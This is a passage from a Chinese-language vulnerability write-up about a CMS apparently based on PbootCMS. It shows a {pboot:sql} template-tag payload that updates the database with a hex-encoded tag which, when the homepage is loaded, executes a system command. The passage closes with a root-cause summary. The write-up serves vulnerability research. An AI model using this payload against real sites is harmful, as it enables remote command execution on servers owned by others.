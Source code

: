 ![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59PA7oee5QHEy7ES2QL9Vq7PzAhaDmBE6g5RLMKKkhL4BY55uHWxWmgg/640?wx_fmt=png)

成功解析到我们想要的语句，去前台执行一下

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59DoAwGuFQ5MK3IutqvoZQJJf161Y2jqMMwQ8LDgUAqr0lGhQ0zajTibQ/640?wx_fmt=png)

数据库中内容成功进行了更新，把 hello 换成我们的标签语句

```
{pboot:sql sql=update/**/ay_site/**/set/**/copyright=/**/0x67b70626f6f747b757365723a70617373776f72647d3a69662831296563686f2073747272657628276d6574737973272928276c7327293b2f2f297d79376d3031697b2f70626f6f747b757365723a70617373776f72647d3a69667d/**/where/**/id/**/=/**/1;#}11{/pboot:sql}
```

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59avticUCKyqPx40ovwzsvFrX9j6ZeuBfAGGVPVUoDeFk7QFdLic4nNJOA/640?wx_fmt=png)

接着访问首页

![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59kv1Zs6IURPveolNTcJ0kgRqbF7ibCajS7yaO1InWF47lZPjlrEGxTkw/640?wx_fmt=png)

成功的执行了 system 函数

![](https://mmbiz.qpic.cn/mmbiz_gif/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59YialJPurb5HgZYHhJFUPd37XLeXpzZIa4olNwZZN6GibvJictRKIOUDGQ/640?wx_fmt=gif)

**总结**

  

![](https://mmbiz.qpic.cn/mmbiz_gif/Ok4fxxCpBb4icV1ekOo8M7QE9VHLc5o59YialJPurb5HgZYHhJFUPd37XLeXpzZIa4olNwZZN6GibvJictRKIOUDGQ/640?wx_fmt=gif)

造成该漏洞的主要原因还是因为程序增加了新的功能点，并且功能点没有进行完整的安全防御，导致可以在前台直接执行 sql 语句，进而将可执行的标签写入数据库，在前台解析执行命令；这也提醒我们在平时挖掘漏洞的时候可以多注意一些新添加的功能，同时充分了解过往存在的漏洞，打出组合拳往往有出其不意的效果。![](https://mmbiz.qpic.cn/mmbiz_png/Ok4fxxCpBb6OLwHohYU7UjX5anusw3ZzxxUKM0Ert9iaakSvib40glppuwsWytjDfiaFx1T25gsIWL5c8c7kicamxw/640?wx_fmt=png)

```
- End -


精彩推荐

【技术分享】Largebin Attack for Glibc 2.31


【技术分享】shiro550漏洞复现与研究


【技术分享】第五届强网杯2021-Misc-Threebody WriteUp

戳“阅读原文”查看更多内容
```